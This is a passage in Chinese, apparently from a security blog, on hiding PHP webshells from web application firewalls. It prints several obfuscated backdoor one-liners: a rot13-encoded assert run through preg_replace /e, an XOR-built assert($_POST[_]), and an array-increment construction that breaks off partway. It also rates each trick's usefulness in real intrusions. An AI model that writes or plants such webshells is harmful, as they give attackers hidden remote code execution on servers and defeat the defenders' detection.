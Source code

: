 ```php
<?php  
($req = $_POST['req']) &&@preg_replace('/ad/e','@'.str_rot13('nffreg').'($req)', 'add'); 
?>
```

![img](https://klionsec.github.io/img/str_rot13%20spec.png)

利用url编码以及自定义加解密实现的免杀,其实也有点儿类似编码,因为是自己设置的加密,所以只有通信的双方知道,这样一来waf就很难在未解密数据中识别出webshell特征,不过人眼还是很容易就看出来的

```
不实用
```



利用ASCII码转换,消除特征,如chr…比较简单,也比较原始,这里就不多说了,实战也不推荐用,肉眼扫一下就看出来了

```
不实用
```



利用 xor [^ 异或] ~[取反] 注入此类的位运算,实战中依然不推荐,只要是个正常人基本都能看出来这是啥,实际中记得先把下面的url编码解码过来,务必注意两个特殊字符要用双引号包起来,hackbar上面框中的参数可以不用,只要POST里的参数传对了就行

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```



![img](https://klionsec.github.io/img/xor%20webshell.png)

数组特性,这个就更不推荐了,看似花哨,但正常的项目代码中是根本不可能出现这些东西的,很明显,这无疑是在故意告诉别人,你来了,那,这就是我的webshell,请删除,如果单单只是想免杀,回调和反序列也许会更好,相对比价隐蔽,完全不用这么招摇过市的搞

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;
$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
```